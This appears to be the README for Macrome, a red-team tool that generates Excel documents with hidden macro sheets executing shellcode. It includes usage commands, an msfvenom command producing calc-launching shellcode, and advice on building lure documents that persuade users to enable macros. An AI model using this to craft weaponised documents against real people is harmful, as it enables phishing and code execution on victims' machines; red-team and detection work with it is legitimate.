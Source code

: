 # Macrome
An Excel Macro Document Reader/Writer for Red Teamers & Analysts.

![](Docs/macrome.png.png)

# Installation / Building
Clone or download this repository, the tool can then be executed using dotnet - for example:

~~~
dotnet run -- --decoy-document Docs\decoy_document.xls --payload Docs\popcalc.bin
~~~

or 

~~~
dotnet build
cd bin/Debug/netcoreapp2.0
dotnet Macrome.dll --decoy-document decoy_document.xls --payload popcalc.bin
~~~

# Usage
Run Macrome by either using `dotnet run` from the solution directory, or `dotnet` against the built Macrome binary. 
~~~
Macrome:
  Generate an Excel Document with a hidden macro sheet that will execute code described by the payload argument.

Usage:
  Macrome [options]

Options:
  --decoy-document <decoy-document>          File path to the base Excel 2003 sheet that should be visible to users.
  --payload <payload>                        Either binary shellcode or a newline separated list of Excel Macros to execute
  --payload-type <Macro|Shellcode>           Specify if the payload is binary shellcode or a macro list. Defaults to Shellcode
  --macro-sheet-name <macro-sheet-name>      The name that should be used for the macro sheet. Defaults to Sheet2
  --output-sheet-name <output-sheet-name>    The output filename used for the generated document. Defaults to output.xls
  --debug-mode                               Set this to true to make the program wait for a debugger to attach. Defaults to false
  --version                                  Show version information
  -?, -h, --help                             Show help and usage information
~~~

## Binary Payload Usage
First generate a base "decoy" Excel document that will contain content users should see. This should be some sort of lure that convinces users to click the "Enable Macros" button displayed in Excel. There's some examples of the "latest and greatest" lure creation at https://inquest.net/blog/2020/05/06/ZLoader-4.0-Macrosheets-. Once this sheet is created, save the document as type `Excel 97-2003 Workbook (*.xls)` rather than the newer `Excel Workbook (*.xlsx)` format. An example decoy document is included in `/Docs/decoy_document.xls`.

Next, generate a shellcode payload to provide to the tool. The example binary payload (which pops calc) was generated using `msfvenom` using the following parameters:

~~~
 msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -e x86/alpha_mixed -f raw EXITFUNC=thread > popcalc.bin
~~~

Note that using a majority alpha-numeric payload will reduce the size of the macro file generated since it's easier to express letters and numbers in macro form instead of appending `CHAR` function invocations repeatedly like `=CHAR(123)&CHAR(124)&CHAR(125)...` etc. But the tool should be able to handle a completely unprintable binary payload as well.

Currently this will only work with `x86` payloads, but `x64` support is coming soon, along with support for loading .NET binaries.

## Macro Payload Usage
Technically possible, but there's more work to do on this both implementation and documentation side.

# Acknowledgements 
Big thanks to all the shoulders that I was able to stand on in order to write this.

* https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/ - The Outflank team created this attack, I'm just automating some of the tedious parts.
* The folks at InQuest for their excellent write-ups on what malware authors are doing to evade detection right now.
  * https://inquest.net/blog/2019/01/29/Carving-Sneaky-XLM-Files
  * https://inquest.net/blog/2020/03/18/Getting-Sneakier-Hidden-Sheets-Data-Connections-and-XLM-Macros
  * https://inquest.net/blog/2020/05/06/ZLoader-4.0-Macrosheets-
* [@DissectMalware](https://twitter.com/DissectMalware/) for their killer [XLMMacroDeobfuscator](https://github.com/DissectMalware/XLMMacroDeobfuscator) tool which has been awesome to test against and is just a really great piece of tech if you're on the defense/analyst side.
* The original authors of the `b2xtranslator` library as well as the folks at EvolutionJobs who updated it and ported it to dotnet. The code used here was initially sourced from https://github.com/EvolutionJobs/b2xtranslator.

